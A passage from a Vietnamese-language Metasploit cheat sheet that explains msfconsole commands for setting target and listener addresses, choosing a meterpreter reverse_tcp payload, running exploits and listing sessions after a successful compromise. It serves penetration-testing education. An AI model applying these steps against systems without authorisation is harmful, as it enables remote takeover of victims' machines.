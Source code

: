 

**back**

* Công dụng: Thoát khỏi module hiện tại và quay trở lại giao diện dòng lệnh chính của msfconsole.



**⚙️ 2. Cấu Hình \& Chạy Module**

Sau khi chọn được module, bạn cần "nạp đạn" cho nó.



**show options (hoặc options)**

* Công dụng: Liệt kê tất cả các tùy chọn bạn cần phải thiết lập cho module đã chọn. Hãy đặc biệt chú ý đến những mục có "yes" ở cột Required.



**set \[TÊN\_TÙY\_CHỌN] \[giá\_trị]**

* Công dụng: Thiết lập một giá trị cho một tùy chọn cụ thể.
* Ví dụ quan trọng:

set RHOSTS 192.168.1.10: Đặt địa chỉ IP của máy mục tiêu. (RHOSTS = Remote Hosts)

set LHOST 10.10.0.5: Đặt địa chỉ IP của máy bạn. (LHOST = Local Host). Lệnh này cực kỳ quan trọng khi dùng các payload reverse shell.



**setg \[TÊN\_TÙY\_CHỌN] \[giá\_trị]**

* Công dụng: Tương tự như set, nhưng nó sẽ thiết lập giá trị đó một cách toàn cục (globally). Bạn sẽ không cần phải đặt lại giá trị này khi chuyển sang một module khác (ví dụ: setg LHOST tun0).



**show payloads**

* Công dụng: Liệt kê tất cả các payloads tương thích với module exploit bạn đang dùng.



**set payload \[tên\_payload]**

* Công dụng: Chọn một payload cụ thể để sử dụng sau khi khai thác thành công.
* Ví dụ: set payload windows/x64/meterpreter/reverse\_tcp



**run (hoặc exploit)**

* Công dụng: Chạy module sau khi đã thiết lập xong tất cả các tùy chọn cần thiết.



**🐚 3. Tương Tác Với Session (Sau Khi Tấn Công Thành Công)**

Khi đã chiếm được quyền điều khiển, bạn cần các lệnh này để quản lý kết nối.



**sessions**

* Công dụng: Liệt kê tất cả các phiên (session) đang hoạt động mà bạn có.

